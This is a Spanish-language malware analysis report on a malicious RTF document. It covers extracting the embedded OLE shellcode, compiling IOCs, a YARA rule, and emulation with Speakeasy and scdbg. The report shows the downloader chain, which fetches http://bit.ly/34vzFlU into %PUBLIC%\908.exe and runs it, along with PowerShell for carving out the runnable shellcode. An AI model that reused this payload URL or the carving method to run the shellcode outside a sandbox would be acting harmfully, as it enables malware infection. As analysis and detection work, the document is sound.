





La ejecución del script `ghidra_universal_string_deobfuscator_v2.py` sobre el RTF original permitió recuperar cadenas relevantes codificadas como hexadecimal textual. Entre ellas se identificaron `rtcShell`, `ExitProcess`, `oleaut32`, `SysAllocString`, `msvbvm60`, `UrlMon`, `%PUBLIC%\908.exe` y `http://bit.ly/34vzFlU`.

Esto confirma que varios IOCs no estaban presentes como texto plano en el documento, sino almacenados como datos hexadecimales que debían ser decodificados para poder ser interpretados correctamente.

El uso del script `ghidra_universal_string_deobfuscator_v2.py` habría permitido identificar en una fase temprana varias cadenas codificadas como hexadecimal textual dentro del RTF original. Así el flujo habría sido mucho más corto:
```
RTF original → script universal en Ghidra → cadenas decodificadas → extracción dirigida de objetos → Ghidra sobre F_2.ole
```

En lugar de ir descubriendo capa por capa con:
```
strings
grep
xxd
rtfdump
floss
...
```

Se nos queda como herramienta paa futuros análisis de muesras.

------

# **9. Conclusiones finales del análisis estático**

**Tabla final de IOCs**
A continuación se recopilan los principales indicadores identificados durante el análisis estático de la muestra. Los IOCs aparecen repartidos entre el RTF original y varios objetos extraídos, por lo que no deben interpretarse como pertenecientes a un único blob.
| IOC                     | Tipo                      | Artefacto donde aparece   | Offset / formato                 | Interpretación                                                            |
| ----------------------- | ------------------------- | ------------------------- | -------------------------------- | ------------------------------------------------------------------------- |
| `kernel32`              | DLL / módulo Windows      | `F_2.ole`                 | `0x38f8` / UTF-16LE              | Módulo base utilizado para resolver APIs del sistema                      |
| `LoadLibraryW`          | API Windows               | `F_2.ole`                 | `0x3916` / ASCII                 | Permite cargar DLLs dinámicamente                                         |
| `GetProcAddress`        | API Windows               | `F_2.ole`                 | `0x3930` / ASCII                 | Permite resolver direcciones de funciones exportadas                      |
| `UrlMon`                | DLL / módulo Windows      | `objdata_356_decoded.bin` | `0x366` / UTF-16LE               | Librería asociada a funciones de descarga mediante URL                    |
| `UrlMon`                | DLL / módulo Windows      | `bin_350_decoded.bin`     | `0x1339` / UTF-16LE              | Misma referencia localizada en otro blob relacionado                      |
| `UrlMon`                | DLL / módulo Windows      | `F_1.ole`                 | `0x6159` / UTF-16LE              | Misma zona de descarga dentro de un contenedor mayor                      |
| `URLDownloadToA6h?`     | Cadena parcial / alterada | `objdata_356_decoded.bin` | `0x37b` / ASCII                  | Referencia parcial compatible con una función de descarga de `urlmon.dll` |
| `URLDownloadToA6h?`     | Cadena parcial / alterada | `bin_350_decoded.bin`     | `0x134e` / ASCII                 | Misma cadena parcial en un blob relacionado                               |
| `URLDownloadToA6h?`     | Cadena parcial / alterada | `F_1.ole`                 | `0x616e` / ASCII                 | Referencia parcial a funcionalidad de descarga                            |
| `%PUBLIC%\908.exe`      | Ruta de fichero           | RTF original              | `1035540` / hexadecimal UTF-16LE | Ruta probable donde se guarda el ejecutable descargado                    |
| `http://bit.ly/34vzFlU` | URL                       | RTF original              | `1035742` / hexadecimal UTF-16LE | URL remota desde la que se descargaría el payload                         |
| `oleaut32`              | DLL / módulo Windows      | RTF original              | hexadecimal UTF-16LE             | Librería de OLE Automation                                                |
| `SysAllocString`        | API OLE Automation        | RTF original              | ASCII / hexadecimal              | Creación de cadenas BSTR, típica en código que interactúa con COM/VB      |
| `msvbvm60`              | DLL / runtime             | RTF original              | hexadecimal UTF-16LE             | Runtime de Visual Basic 6                                                 |
| `rtcShell`              | Función runtime VB        | RTF original              | ASCII / hexadecimal              | Posible ejecución de comando o fichero mediante runtime VB                |
| `ExitProcess`           | API Windows               | RTF original              | ASCII / hexadecimal              | Finalización del proceso tras completar la ejecución                      |

La presencia conjunta de kernel32, LoadLibraryW y GetProcAddress en `F_2.ole` indica resolución dinámica de APIs. Por otro lado, `UrlMon`, la referencia parcial `URLDownloadToA6h?`, la URL `http://bit.ly/34vzFlU` y la ruta `%PUBLIC%\908.exe` sugieren funcionalidad de descarga y almacenamiento de un ejecutable remoto.

En conjunto, **estos IOCs son compatibles con un comportamiento de downloader/dropper embebido dentro del documento RTF**


Así concluimos que el documento RTF contiene varios objetos y blobs embebidos. El análisis muestra que los indicadores relevantes están repartidos entre distintos artefactos. F_2.ole contiene código x86 con cadenas inline y referencias a kernel32, LoadLibraryW y GetProcAddress, lo que indica resolución dinámica de APIs. Por otro lado, F_1.ole y objdata_356_decoded.bin contienen referencias a UrlMon y a una cadena parcial compatible con URLDownloadTo, mientras que el RTF original contiene la URL http://bit.ly/34vzFlU y la ruta %PUBLIC%\908.exe codificadas como hexadecimal UTF-16LE.

En conjunto, estos elementos sugieren que la muestra actúa como downloader/dropper: resuelve APIs dinámicamente, prepara una ruta de escritura en %PUBLIC%, descarga un ejecutable remoto y posiblemente lo ejecuta mediante funciones asociadas al runtime de Visual Basic.


# **10. Regla YARA simple**
Regla YARA basada en los indicadores que hemos confirmado:
```
rule M9T3_RTF_Downloader
{
    meta:
        description = "RTF downloader with embedded OLE objects and dynamic API resolution"
        author = "Sonia"
        sample = "2b5511fa177b5528e8d8f97516dcd9854284cf59b0e78d498b1ac7c3b2ef7762.rtf"

    strings:
        $rtf = "{\\rtf" ascii
        $objdata = "objdata" ascii
        $datastore = "datastore" ascii

        $kernel32_w = "6b00650072006e0065006c0033003200" ascii
        $loadlibrary = "4c6f61644c69627261727957" ascii
        $getproc = "47657450726f6341646472657373" ascii
        $urlmon_w = "550072006c004d006f006e00" ascii

        $public_path_w = "25005000550042004c004900430025005c003900300038002e006500780065" ascii
        $url_w = "68007400740070003a002f002f006200690074002e006c0079002f003300340076007a0046006c0055" ascii

    condition:
        $rtf at 0 and
        any of ($objdata, $datastore) and
        3 of ($kernel32_w, $loadlibrary, $getproc, $urlmon_w, $public_path_w, $url_w)
}
```

# **11. Análisis dinámico**
Desdes una máquina virtual windows aislada y con todas las herramientas necesarias instaladas, vamos a realizar el análsis dinámico de esta muestra.

## **11.1 Preparación de la Máquina Virtual**
### **A) Process Monitor**
**Ejecutamos Process Monitor y establecemos los siguientes filtros:**
```
1. Process Name | is | NOMBRE_MUESTRA | Include
2. Operation    | is | Process Create     | Include
3. Operation    | is | WriteFile          | Include
4. Operation    | is | RegSetValue        | Include
5. Operation    | is | TCP Connect        | Include
6. Operation    | is | CreateFile         | Include
7. Path         | contains | AppData       | Include
8. Path         | contains | Temp          | Include
9. Path         | contains | CurrentVersion\Run | Include
10. Process Name | is | Procmon64.exe     | Exclude
```

### **B) Process Explorer**
Configuracón para Process Explorer:
```
Run as administrator
View > Select Columns > PID, Parent PID, Command Line, Image Path, Verified Signer
Options > Verify Image Signatures
Options > Difference Highlight Duration > 5 seconds
```

Lo importante es anotar:
``` 
Proceso padre  ->  Proceso hijo
Ruta ejecutada
PID
Línea de comandos
Tiempo de aparición
Si el proceso desaparece rápido
``` 


----

### **C) Regshot**
Tomamos dos snapshot, una previa y otra posterior a la ejecución para compararlas.

-----

### **D) Wireshark**
**Filtro recomendado para wireshark:**
```
dns or http or tls or tcp.flags.syn == 1
```

| Parte                | Utilidad                   |
| -------------------- | -------------------------- |
| `dns`                | Dominios consultados       |
| `http`               | Peticiones HTTP            |
| `tls`                | HTTPS / SNI / certificados |
| `tcp.flags.syn == 1` | Intentos de conexión TCP   |


### **E) Autoruns: persistencia**


-----


**Extraemos xxxxxxx**
Ejecutamos `rtfobj -s all` para extaer los objetos que contenga la muesta. Acortamos el nombre de la muestra para facilitar la visión de los resultados.

----------

**Comprobamos la cabecera del raw que genera rtfobj:**
```
certutil -encodehex 2b.raw 2b_raw.txt 12
```

Abrimos el fichero .txt que se generó:
```
0000	d0 20 0d 15 02 00 00 00  0b 00 00 00 65 51 75 14   . ..........eQu.
0010	17 46 87 48 62 39 56 31  11 28 74 86 23 95 63 11   .F.Hb9V1.(t.#.c.
0020	12 87 48 62 39 56 31 11  29 4f 4e 2e 33 00 00 00   ..Hb9V1.)ON.3...
0030	00 00 00 00 00 00 1a 05  00 00 02 c4 57 c1 e3 5d   ............W..]
0040	01 08 82 bf b9 c3 42 ba  ff f7 d1 8b 19 8b 2b ba   ......B.......+.
0050	99 0d 66 db 81 c2 17 5a  e0 24 8b 0a 55 ff d1 83   ..f....Z.$..U...
0060	c0 5d ff e0 c8 a5 04 e2  29 0a 7a 0d 2b 52 cf 5d   .]......).z.+R.]
```

**No se corresponde con ninguna de las cabeceras esperadas:**
| Primeros bytes             | Qué puede ser     | Qué hacer                                                   |
| -------------------------- | ----------------- | ----------------------------------------------------------- |
| `D0 CF 11 E0 A1 B1 1A E1`  | OLE Compound File | Renombrar a `.ole` y analizar con `oledump.py` / `oleid`    |
| `4D 5A`                    | Ejecutable PE     | Renombrar a `.exe` y analizar con DIE/PEStudio, no ejecutar |
| `7B 5C 72 74 66`           | RTF               | Renombrar a `.rtf` y volver a pasar `rtfobj`                |
| Texto legible              | Script o texto    | Renombrar a `.txt`, `.vbs`, `.ps1`, etc. según contenido    |
| Bytes sin estructura clara | Shellcode/datos   | Usar `scdbg`, `speakeasy`, `ndisasm`, `capstone`, `strings` |


-------

**Analizamos los strings del objeto extraido:**

```
kernel32
LoadLibraryW
GetProcAddress
ExpandEnvironmentStringsW
%PUBLIC%\908.exe
UrlMon
URLDownloadToFileW
http://bit.ly/34vzFlU
oleaut32
SysAllocString
msvbvm60
rtcShell
ExitProcess
```

<mark>El objeto RAW contiene indicadores claros de descarga y ejecución de payload.</mark>

------

**Analizamos el objeto 2b.raw extraído del RTF mediante Speakeasy en modo raw x86:**
```
{
    "path": ".\\2b.raw",
    "sha256": "280a7cce75f5ee71a2ff025efdc059a7d85a4de13292aa342f71e186876a93fb",
    "size": 1372,
    "arch": "x86",
    "mem_tag": "emu.shellcode.280a7cce75f5ee71a2ff025efdc059a7d85a4de13292aa342f71e186876a93fb",
    "emu_version": "1.5.11",
    "os_run": "windows.6_1",
    "report_version": "1.1.0",
    "emulation_total_runtime": 0.068,
    "timestamp": 1779560617,
    "strings": {
        "static": {
            "ansi": [
                "Hb9V1",
                "Hb9V1",
                ")ON.3",
                "W_^[",
                "!GU\u007f=",
                "Wrt6",
                "_|#jK",
                "!6[)v",
                "\\#p<2",
                "%;*XPQa",
                "LoadLibraryW",
                "GetProcAddress",
                "ExpandEnvironmentStringsW",
                "URLDownloadToFileW",
                "SysAllocString",
                "rtcShell",
                "ExitProcess",
                "t9f;",
                "SRVW",
                "t$$1",
                "YX+H",
                "_^Z["
            ],
            "unicode": [
                "kernel32",
                "%PUBLIC%\\908.exe",
                "UrlMon",
                "http://bit.ly/34vzFlU",
                "oleaut32",
                "msvbvm60"
            ]
        },
        "in_memory": {
            "ansi": [],
            "unicode": []
        }
    },
    "entry_points": [
        {
            "ep_type": "shellcode",
            "start_addr": "0x1000",
            "ep_args": [
                "0x41420000",
                "0x41421000",
                "0x41422000",
                "0x41423000"
            ],
            "apihash": "e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855",
            "apis": [],
            "ret_val": "0x0",
            "error": {
                "type": "invalid_read",
                "pc": "0x1000",
                "address": "0x0",
                "instr": "shl byte ptr [eax], 1",
                "regs": {
                    "esp": "0x01203fe4",
                    "ebp": "0x01204000",
                    "eip": "0x00001000",
                    "esi": "0x00000000",
                    "edi": "0x00000000",
                    "eax": "0x00000000",
                    "ebx": "0x00000000",
                    "ecx": "0x00000400",
                    "edx": "0x00000000"
                },
                "stack": [
                    "sp+0x00: 0xfeedf000",
                    "sp+0x04: 0x41420000 -> emu.shellcode_arg_0.0x41420000",
                    "sp+0x08: 0x41421000 -> emu.shellcode_arg_1.0x41421000",
                    "sp+0x0c: 0x41422000 -> emu.shellcode_arg_2.0x41422000",
                    "sp+0x10: 0x41423000 -> emu.shellcode_arg_3.0x41423000",
                    "sp+0x14: 0xfeedf000",
                    "sp+0x18: 0x00007000"
                ]
            },
            "dynamic_code_segments": []
        }
    ]
}
``` 


Cadenas relevantes encontradas:
```
LoadLibraryW
GetProcAddress
ExpandEnvironmentStringsW
URLDownloadToFileW
SysAllocString
rtcShell
ExitProcess
kernel32
%PUBLIC%\908.exe
UrlMon
http://bit.ly/34vzFlU
oleaut32
msvbvm60
``` 

Se analizó el objeto 2b.raw extraído del RTF mediante Speakeasy en modo raw x86. La emulación finalizó inmediatamente con un error invalid_read en la dirección 0x1000, por lo que no se observaron llamadas dinámicas a APIs durante la ejecución emulada.


No obstante, el análisis de cadenas del objeto reveló indicadores relevantes asociados a un downloader, incluyendo LoadLibraryW, GetProcAddress, ExpandEnvironmentStringsW, URLDownloadToFileW, UrlMon, rtcShell, %PUBLIC%\908.exe y la URL http://bit.ly/34vzFlU. Estos elementos sugieren que el objeto intenta descargar un payload remoto y guardarlo como 908.exe en el directorio público del sistema, aunque este comportamiento no pudo ser confirmado mediante emulación completa.

--------

Ese objeto extraído con rtfobj probablemente contiene código que intenta:
```
1. Resolver APIs con LoadLibraryW / GetProcAddress
2. Expandir la ruta %PUBLIC%
3. Descargar un fichero desde http://bit.ly/34vzFlU
4. Guardarlo como %PUBLIC%\908.exe
5. Ejecutarlo mediante rtcShell / runtime de VB
6. Terminar con ExitProcess
```

-------


Lo que genera rtfobj suele ser un volcado bruto del objeto embebido. Ese .raw puede contener shellcode, datos, cabeceras OLE, relleno, offsets internos o partes de exploit. No necesariamente empieza en el punto de entrada correcto.


Speakeasy falla al empezar a emularlo desde 0x1000 con:
```
invalid_read
instr: shl byte ptr [eax], 1
eax: 0x00000000
```
<mark>Eso indica que el offset inicial no parece ser código ejecutable válido o falta contexto de ejecución.</mark>


-----

**Buscamos el offset correcto:**
```
speakeasy.exe -t .\2b.raw --raw -a x86 --raw_offset 0x0   -o se_0.json
speakeasy.exe -t .\2b.raw --raw -a x86 --raw_offset 0x10  -o se_10.json
speakeasy.exe -t .\2b.raw --raw -a x86 --raw_offset 0x20  -o se_20.json
speakeasy.exe -t .\2b.raw --raw -a x86 --raw_offset 0x100 -o se_100.json
speakeasy.exe -t .\2b.raw --raw -a x86 --raw_offset 0x200 -o se_200.json
speakeasy.exe -t .\2b.raw --raw -a x86 --raw_offset 0x300 -o se_300.json
speakeasy.exe -t .\2b.raw --raw -a x86 --raw_offset 0x400 -o se_400.json

```


**Buscamos indicadores en los JSON::**
```
findstr /i "URLDownloadToFile LoadLibrary GetProcAddress ExpandEnvironmentStrings rtcShell bit.ly 908.exe PUBLIC CreateProcess WinExec" se_*.json
```

------

xxxxx

--------


**Obtenemos varios archivos y encontramos el offset correcto:**
```
speakeasy.exe -t .\2b.raw --raw -a x86 --raw_offset 0x10 -o se_10.json
```
Ese arranca en: `start_addr: 0x1100`.


Con offset 0x100, Speakeasy consigue emular el shellcode y observamos esta cadena:
```
GetProcAddress -> ExpandEnvironmentStringsW
ExpandEnvironmentStringsW("%PUBLIC%\908.exe")
LoadLibraryW("UrlMon")
GetProcAddress -> URLDownloadToFileW
URLDownloadToFileW("http://bit.ly/34vzFlU", "%PUBLIC%\908.exe")
LoadLibraryW("oleaut32")
GetProcAddress -> SysAllocString
SysAllocString("%PUBLIC%\908.exe")
LoadLibraryW("msvbvm60")
GetProcAddress -> rtcShell
```

Esto confirma que el objeto RAW extraído del RTF contiene un downloader. Intenta descargar:
```
http://bit.ly/34vzFlU
```
y guardar el resultado como:
```
%PUBLIC%\908.exe
```

Speakeasy también registra actividad de fichero:
```
create -> %PUBLIC%\908.exe
write  -> %PUBLIC%\908.exe
```
y una consulta DNS a:
```
bit.ly
```

--------

**Los demás offsets no son buenos puntos de entrada:**
```
0x0    -> invalid_read
0x10   -> unhandled_interrupt
0x20   -> invalid_read
0x200  -> invalid_read
0x300  -> invalid_read
0x400  -> invalid_read
```

-------

**Por tanto, el shellcode útil no empieza al inicio del .raw, sino en:**
```
offset 0x100
```
Los resultados de 0x10 y 0x0 muestran errores inmediatos, sin APIs ejecutadas.

-------------------

Tras probar distintos offsets de emulación con Speakeasy sobre el objeto 2b.raw extraído mediante rtfobj, se identificó el offset 0x100 como punto de entrada válido del shellcode. Desde este offset, Speakeasy observó llamadas a GetProcAddress, ExpandEnvironmentStringsW, LoadLibraryW y URLDownloadToFileW.

El shellcode intenta expandir la ruta %PUBLIC%\908.exe y descargar un payload desde http://bit.ly/34vzFlU mediante URLDownloadToFileW. También se observó actividad de creación y escritura del fichero %PUBLIC%\908.exe, así como una consulta DNS a bit.ly. Esto confirma que el objeto embebido actúa como downloader.

-------


Todos los JSON contienen las mismas cadenas estáticas, pero solo se_100.json contiene ejecución real de APIs.

La diferencia clave es esta:

se_10.json / se_20.json / se_200.json / se_300.json / se_400.json
→ solo muestran strings estáticas dentro del RAW

se_100.json
→ muestra strings estáticas + api_name + DNS + file_access


-----


El offset correcto es:

--raw_offset 0x100

El comando bueno para el informe es:

speakeasy.exe -t .\2b.raw --raw -a x86 --raw_offset 0x100 -o se_100.json


------


Se probaron distintos offsets de emulación con Speakeasy sobre el objeto 2b.raw extraído del RTF mediante rtfobj. Aunque todos los resultados contienen cadenas estáticas asociadas a un downloader, únicamente el offset 0x100 permitió observar ejecución de APIs.

Con --raw_offset 0x100, Speakeasy registró llamadas a GetProcAddress, ExpandEnvironmentStringsW, LoadLibraryW y URLDownloadToFileW. El shellcode intenta descargar un fichero desde http://bit.ly/34vzFlU y guardarlo en %PUBLIC%\908.exe. También se observó una consulta DNS a bit.ly y eventos de creación/escritura sobre %PUBLIC%\908.exe.

Por tanto, el objeto extraído actúa como downloader y el offset 0x100 corresponde al punto de entrada útil para la emulación.


-----

## **Intentamos convertir el hallazgo en algo minimamente ejecutable**


Vamos a intentar convertirlo en un shellcode “limpio” desde el offset correcto. Como Speakeasy ha demostrado que el punto útil empieza en:
```
offset 0x100
```
podemos recortar el .raw y generar un nuevo fichero que empiece directamente en el shellcode funcional.

En PowerShell:
``` 
$raw = (Resolve-Path .\2b.raw).Path
$bytes = [System.IO.File]::ReadAllBytes($raw)
$carved = $bytes[0x100..($bytes.Length - 1)]
[System.IO.File]::WriteAllBytes("$PWD\2b_offset100.bin", $carved)
```

Verificamos:
```
findstr /i "api_name URLDownloadToFileW bit.ly 908.exe file_access dns" .\se_offset100_carved.json
```

Obtenemos:
```
                "URLDownloadToFileW",
                "%PUBLIC%\\908.exe",
                "http://bit.ly/34vzFlU",
                "%PUBLIC%\\908.exe"
                    "api_name": "kernel32.GetProcAddress",
                    "api_name": "kernel32.ExpandEnvironmentStringsW",
                        "%PUBLIC%\\908.exe",
                        "%PUBLIC%\\908.exe",
                    "api_name": "kernel32.LoadLibraryW",
                    "api_name": "kernel32.GetProcAddress",
                        "URLDownloadToFileW"
                    "api_name": "urlmon.URLDownloadToFileW",
                        "http://bit.ly/34vzFlU",
                        "%PUBLIC%\\908.exe",
                    "api_name": "kernel32.LoadLibraryW",
                    "api_name": "kernel32.GetProcAddress",
                    "api_name": "oleaut32.SysAllocString",
                        "%PUBLIC%\\908.exe"
                    "api_name": "kernel32.LoadLibraryW",
                    "api_name": "kernel32.GetProcAddress",
                "dns": [
                        "query": "bit.ly",
            "file_access": [
                    "path": "%PUBLIC%\\908.exe"
                    "path": "%PUBLIC%\\908.exe"
```
donde:
- Se confirma que el recorte desde 0x100 ha funcionado.
- Ahora tenemos un fichero nuevo: `2b_offset100.bin` que ya es un shellcode raw directamente emulable sin tener que usar `--raw_offset`.


Tras analizar el objeto 2b.raw extraído del RTF mediante rtfobj, se comprobó que el código útil no comenzaba en el offset 0x0. Mediante pruebas con Speakeasy se identificó el offset 0x100 como punto de entrada válido del shellcode.

Se recortó el objeto original desde el offset 0x100 para generar el fichero 2b_offset100.bin. Este nuevo fichero pudo ser emulado directamente con Speakeasy en modo raw x86, sin necesidad de indicar raw_offset.

La emulación confirmó llamadas a GetProcAddress, ExpandEnvironmentStringsW, LoadLibraryW y URLDownloadToFileW. El shellcode intenta descargar el recurso http://bit.ly/34vzFlU y guardarlo como %PUBLIC%\908.exe. También se observó una consulta DNS a bit.ly y eventos de creación/escritura sobre %PUBLIC%\908.exe.

----- 


**Ahora emulamos ese nuevo artefacto con Speakeasy sin offset:**
```
speakeasy.exe -t .\2b_offset100.bin --raw -a x86 -o se_offset100_carved.json
```



--------

**Recapitulamos:**

Tras extraer el objeto 2b.raw del RTF mediante rtfobj, se comprobó que el código útil no comenzaba en el offset 0x0. Mediante pruebas con Speakeasy se identificó el offset 0x100 como punto de entrada válido. Se recortó el objeto desde dicho offset para generar el fichero 2b_offset100.bin.

El nuevo fichero fue emulado directamente con Speakeasy como shellcode x86. La emulación mostró llamadas a GetProcAddress, ExpandEnvironmentStringsW, LoadLibraryW y URLDownloadToFileW. El shellcode intenta descargar un recurso desde http://bit.ly/34vzFlU y guardarlo como %PUBLIC%\908.exe, observándose también actividad DNS hacia bit.ly y eventos de creación/escritura sobre el fichero 908.exe.

Por tanto, el objeto embebido en el RTF actúa como downloader.


------

**Ahora probamos ese artefacto con scdbg:**
```
scdbg.exe -f .\2b_offset100.bin -s 2000000
```



Se ha conseguido emular suficiente código para mostrar la cadena principal:
```
GetProcAddress(ExpandEnvironmentStringsW)
ExpandEnvironmentStringsW(%PUBLIC%\908.exe)
LoadLibraryW(UrlMon)
GetProcAddress(URLDownloadToFileW)
URLDownloadToFileW(http://bit.ly/34vzFlU, C:\Users\Public\908.exe)
LoadLibraryW(oleaut32)
GetProcAddress(SysAllocString)
``` 

Esto confirma que el objeto extraído del RTF contiene shellcode con comportamiento de downloader. La lógica observada es:
```
1. Resolver ExpandEnvironmentStringsW
2. Expandir %PUBLIC%\908.exe
3. Cargar UrlMon
4. Resolver URLDownloadToFileW
5. Descargar http://bit.ly/34vzFlU
6. Guardar el resultado como C:\Users\Public\908.exe
7. Cargar oleaut32
8. Intentar continuar con SysAllocString / rtcShell
```

El error final:
```
Unknown Dll - Not Implemented by libemu
Lookup not found
No memory At Address
```
no invalida el hallazgo. Sólo significa que scdbg/libemu no implementa completamente esa DLL/API o no puede continuar la emulación después de esa fase.


------

**Conclusiones:**  
Tras identificar que el objeto 2b.raw extraído mediante rtfobj no comenzaba directamente en el shellcode útil, se recortó el fichero desde el offset 0x100 para generar 2b_offset100.bin. Este nuevo fichero fue emulado con scdbg.

